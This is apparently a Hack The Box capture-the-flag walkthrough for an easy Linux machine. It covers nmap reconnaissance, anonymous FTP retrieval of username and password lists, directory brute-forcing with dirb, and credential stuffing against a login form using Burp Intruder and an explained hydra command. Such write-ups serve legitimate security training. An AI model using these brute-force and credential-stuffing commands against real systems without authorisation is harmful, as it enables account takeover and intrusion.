

---
tags:
  - Linux
  - HTTP
  - FTP
  - Password spray
---

... is a very simple HTB machine which hosts an insecure `ftp` server which allows you to get two wordlists, which can then be used to do credential stuffing on an login form on the `http` server.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this (after waiting longer than usual):
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.10.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
```
This machine hosts a `ftp` service alongside a `http` server. As the `nmap` script `ftp-syst` (activated by `-sC`) has already found out, anonymous `ftp` logins are allowed.

### Initial Exploitation
The anonymous `ftp` is a very low hanging fruit, so i log into that service using this command:
```bash
ftp anonymous@$IP 21
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# prepend 'anonymous@' as the username to the service
# 21: port of FTP
```

I quickly use the command `get` to download the two files `allowed.userlist` and `allowed.userlist.passwd` onto my kali machine. They contain 4 usernames and 4 passwords, respectively.

As that was done, i opened `firefox` to investigate the web site. It is a landing page to some company which offers graphics- and website design services to other companies. The page source and the developer tools do not reveal anything hidden, as this page was built with an framework called "Ayro UI".

As i haven't found anything interesting, i have employed forceful browsing using `dirb http://$IP`. The results were as follows:
```bash
---- Scanning URL: http://10.10.10.10/ ----
==> DIRECTORY: http://10.10.10.10/assets/
==> DIRECTORY: http://10.10.10.10/css/
==> DIRECTORY: http://10.10.10.10/dashboard/    
==> DIRECTORY: http://10.10.10.10/fonts/
+ http://10.10.10.10/index.html (CODE:200|SIZE:58565)       
==> DIRECTORY: http://10.10.10.10/js/
+ http://10.10.10.10/server-status (CODE:403|SIZE:276)
```
The entries `assets`, `css`, `fonts`, `js` and `server-status` can (usually) be ignored, as those are usually generated by web frameworks to create an oversee-able structure of different file types which belong to a website. 
The interesting sub directory is `dashboard`, as that is not typical for a such framework. When visiting `/dashboard`, i get redirected to `/login.php` which shows an login form. At this moment, i switched over to `burpsuite` to find out if there were multiple redirects, but i was only redirected to `login.php`

At this `login.php`, i remembered the username and password list i have found earlier. And because i already have `burpsuite` open, i use the integrated intruder to try all combinations of credentials against this login page (a.k.a. credential stuffing attack). 
For this, i login with the credentials `name:pass` and intercept the request to forward it to the intruder. After that, i select the `Cluster bomb attack` (uses all combinations, unlike `Pitchfork attack`) from the attack type, and add the `§name§` and `§pass§` symbols. At the payload positions i add the username list for the `§name§` position, and the password list for the `§pass§` position.
This image shows a short checklist of all things you must check:


This gives me the correct login (the one which gives me a status code `302`), which i then use to obtain the flag after logging in!

#### Alternative way
If you do not own `burpsuite` professional edition (like me `:(` ), the intruder attack is heavily throttled and may take a while for longer word-lists. A great CLI alternative to the intruder is `hydra`. The full command can get a bit confusing, so ill explain all options:
```bash
hydra -L allowed.userlist -P allowed.userlist.passwd $IP http-post-form "/login.php:Username=^USER^&Password=^PASS^&Submit=Login:F=Incorrect"
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -L: list of names, -l for singular name
# -P: list of passwords, -p for singular password
# http-post-form: use HTTP-POST for the attack
#
# the data is structured in 3 parts:
# 1. "/login.php" - resource to post to
# 2. "name=^USER^&pass=^PASS^:H=Origin\:http\://10.10.10.10:H="
#     - contains POST data, and optionally, multiple headers
# 3. "F=incorrect" or "S=correct" - failure / success condition
```

If you wish to add more headers, it works like this:
```bash
":H=Cookie\: PHPSESSID=loremipsum:H=Origin\: http\://10.10.10.10:H=Referer\: http\://10.10.10.10/login.php"
```
... within the second part

### Summary

Below is a visualized summary of the exploitation steps used in this machine.

